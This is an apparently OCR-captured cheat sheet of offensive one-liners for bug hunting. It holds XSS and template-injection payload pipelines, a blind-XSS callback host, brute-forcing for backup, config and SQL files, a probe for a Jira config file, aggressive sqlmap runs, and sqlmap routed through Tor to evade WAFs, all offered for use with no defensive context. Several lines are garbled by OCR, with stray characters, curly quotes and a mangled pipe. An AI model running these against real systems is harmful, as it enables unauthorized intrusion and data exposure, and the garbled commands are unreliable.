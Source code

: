 ```
gau target.com grep '='| qsreplace hack\" -a | while read url;do target-$(curl -s -l $url | egrep -o '(hack" | hack\\")'); echo -e "Target : \e[1;33m $url\e[om" "$target" "\n -"; done I sed 's/hack"/[xss Possible] Reflection Found/g'
```
```
cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/?name={{this.constructor.constructor('alert(\"foo\")')()}}" -mr "name={{this.constructor.constructor('alert(" 
```
```
cat targets.txt | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```
```
waybackurls target.com | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
```
cat urls.txt | grep "=" | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours.xss.ht
```
```
cat targets.txt | ffuf -w - -u "FUZZ/sign-in?next=javascript:alert(1);" -mr "javascript:alert(1)" 
```
```
cat subs.txt | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'
```
---------------------
## Hidden Dirs:
```
dirsearch -l urls.txt -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json --deep-recursive --force-recursive --exclude-sizes=0B --random-agent --full-url -o output.txt
```
```
ffuf -c -w urls.txt:FUZZ1 -w wordlist.txt:FUZZ2 -u FUZZ1/FUZZ2 -mc 200 -ac -recursion -v -of json -o output
```
## ffuf json to txt output
```
cat output.json | jq | grep -o '"url": ".*"' | grep -o 'https://[^"]*'
```
**Search for Sensitive files from Wayback**
```
waybackurls domain.com| grep - -color -E "1.xls | \\. xml | \\.xlsx | \\.json | \\. pdf | \\.sql | \\. doc| \\.docx | \\. pptx| \\.txt| \\.zip| \\.tar.gz| \\.tgz| \\.bak| \\.7z| \\.rar"
```
```
cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml" -mc 200
```
-------------------
## SQLi:
```
cat subs.txt | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 5 --risk 3
```
***Bypass WAF using TOR***
```
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor
```
----------------